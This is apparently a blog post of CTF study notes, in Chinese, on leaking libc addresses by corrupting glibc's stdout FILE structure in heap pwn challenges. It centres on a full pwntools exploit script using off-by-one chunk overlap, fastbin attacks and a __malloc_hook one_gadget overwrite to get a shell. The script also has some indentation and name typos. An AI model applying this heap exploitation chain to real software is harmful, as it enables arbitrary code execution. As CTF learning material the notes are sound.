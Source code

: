 ```yaml
---
layout:     post
title:      IO_FILE泄露libc地址学习笔记
subtitle:   笔记
date:       2020-11-14
author:     X1ng
header-img: IO_FILE泄露libc.jpg
catalog: true
tags:

    - 学习笔记
    - pwn

---
```


由于做过的题太少了（太菜了），很多时候就算知道某个套路题，调试写出exp也很慢，平时不做题到比赛时已经把知识点忘光了，水篇笔记让我比赛的时候快速回忆IO_FILE泄露libc的知识点

## 利用方法

其实就是修改stdout的flag位为`0xfbad1800`,并且将`_IO_write_base`的最后一个字节改小，输出一些内容，这些内容里面一般都包含libc地址，具体的原理网上都可以找到讲的很好的师傅，可以看看[这个师傅的博客](https://n0va-scy.github.io/2019/09/21/IO_FILE/)

### 在libc-2.23.so下

构造堆块重叠时，需要让一块内存先进入0x70大小的fastbin中，然后再让它进入unsortbin中，然后修改unsortedbin下留下的`main_arena+88`地址

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkp2s5in4hj30jy080gn4.jpg)

用pwntools的send函数发送数据来覆盖最后两字节为`\xdd\xN5`（_IO_2_1_stdout_结构体的地址的最低2字节），N需要爆破1/16

可以用`p &_IO_2_1_stdout_`来查看stdout结构体的地址，实际上应该是比`main_arena+88`大了0x1000左右，比如上图在调试的时候可以用gdb的`set`命令将fd修改为0x7f8d780af5dd，方便调试

从fastbin里malloc两次之后就可以将chunk分配到`_IO_2_1_stdout_`结构体之前的一个地方，因为这段内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`，可以绕过fastbin分配的时候对size的检查

然后填充payload：`'A'*0x33 + p64(0xfbad1800) + p64(0)*3 + b'\x00'`

接收libc中的地址：`leak = u64(ru("\x7f")[-6:].ljust(8,b'\x00'))`

如果有libc文件也可以用偏移直接算出libc基址

```python
IO_stderr = u64(ru("\x7f")[-6:].ljust(8,b'\x00'))-192
libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
```

就完成了泄露

举个利用的栗子

```python
#!/usr/bin/python2

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='pwn'

libc_name='libc-2.23.so'


def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla(">> ",str(num))

def add(size):
    cho(1)
    sla("size?",str(size))

def edit(idx,con):
    cho(4)
    sla("index ?",str(idx))
    sa("content ?", con)

def delete(idx):
    cho(2)
    sla("index ?",str(idx))

while True:
	try:
		if local:
    		p=process("./"+binary_name)
   			e=ELF("./"+binary_name)
				libc=ELF("./"+libc_name)
		else:
    		p=remote('',)
    		e=ELF("./"+binary_name)
    		ibc=ELF("./"+libc_name)
        
		add(0x18)#0
    
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(0,'a'*0x18+'\x71')
		delete(1)
		#off-by-one，构造堆块重叠
    
		delete(2)
		#将目标chunk放入fastbin
    
		add(0xf8)#1，让fastbin中chunk的fd中保存main_arena+88
    
		add(0x58)#2，与fastbin中重叠
    
		
		edit(2,'\xdd\x25')
		#修改低位两字节
		
		add(0x68)#4
    
		add(0x68)#5，该chunk在`_IO_2_1_stdout_`结构体附近
		
		edit(5,'a'*0x33 + p64(0xfbad1800) + p64(0)*3 + '\x00')
		#填充payload
    
		IO_stderr = u64(ru("\x7f")[-6:].ljust(8,'\x00'))-192
		libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
		print 'libc:' + hex(libc_base)
		malloc_hook = libc_base + libc.symbols['__malloc_hook']
		print 'malloc:' + hex(malloc_hook-0x10)
		#接收地址
    
		add(0x18)#6
    
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(6,'a'*0x18+'\x71')
		delete(7)
		delete(8)
		add(0x168)#7
    
		edit(7,'a'*0xf0+p64(0)+p64(0x71)+p64(malloc_hook - 0x23))
		#故技重施，分配chunk到malloc_hook附近
    
		add(0x68,'b')#8
    
		add(0x68,'b')#10
    
		edit(10,'\x00'*0x13 + p64(libc_base + 0x45226))
		#填充payload，覆盖malloc_hook为one_gadget
    
		cho(1)
		sla("size?",str(100))
		#调用malloc		
    
		ia()
		break
	except:
		p.close()

```



### 在libc-2.27.so下

在libc-2.27环境下由于有了tcache，不需要特意将chunk分配到内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`的地址上了，直接把tcache的fd改为`_IO_2_1_stdout_`即可

而且tcache可以直接覆盖free hook为system函数进行利用

